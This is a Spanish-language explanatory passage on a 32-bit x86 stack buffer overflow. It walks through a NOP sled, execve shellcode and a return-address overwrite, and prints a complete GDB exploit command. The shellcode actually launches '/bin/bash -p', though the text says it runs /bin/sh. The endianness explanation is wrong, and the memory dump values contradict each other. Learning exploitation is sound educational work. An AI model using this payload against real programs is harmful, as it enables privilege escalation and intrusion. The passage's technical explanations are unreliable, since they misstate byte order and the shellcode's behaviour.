 Estas líneas contienen la instrucción NOP (No Operation) `0x90`, que es comúnmente utilizada en un "NOP sled" en exploits de buffer overflow. Esto ayuda a garantizar que el flujo de ejecución caiga dentro del shellcode.
### Representación de la Dirección en la Pila

En sistemas de arquitectura **x86** (de 32 bits), la pila utiliza el formato **little-endian** para almacenar datos. Esto significa que los bytes de una palabra se almacenan en orden inverso al que se escriben.

Cuando ves una dirección como `\x70\xd6\xff\xff`, en realidad se almacena en la pila de la siguiente manera:
### Little-endian Order

La dirección `\x70\xd6\xff\xff` se almacena en la pila en el orden inverso:

- La dirección `\x70\xd6\xff\xff` se almacenará en memoria como:
  ```plaintext
  ff ff d6 70
  ```

Esto es importante porque el procesador leerá los bytes en el orden correcto cuando utilice la dirección.
### Revisión del Comando

Dado el comando:
```sh
(gdb) r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x70\xd6\xff\xff"')
```

Aquí la parte final `"\x70\xd6\xff\xff"` debe sobrescribir la dirección de retorno en la pila, redirigiéndola al comienzo del NOP sled.
### Almacenamiento en la Pila

Supongamos que `$esp` apunta a `0xffffd760`, entonces la dirección `\x70\xd6\xff\xff` se almacenará en la pila de la siguiente manera:

```plaintext
0xffffd760:  0x80ff4242  (Dirección siguiente después de shellcode)
0xffffd764:  0xffffd670  (Almacenado en little-endian)
```

En la salida de memoria de GDB, esto se vería como:

```plaintext
0xffffd760:    0x42424280    0x70d6ffff
```
### Función del Comando Revisada

El comando intenta explotar una vulnerabilidad de buffer overflow como sigue:

1. **NOP Sled**:
   - `"\x90"*479`: Crea una zona de 479 bytes de instrucciones NOP (`0x90`).

2. **Shellcode**:
   - `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`: Este shellcode ejecuta `/bin/sh`.
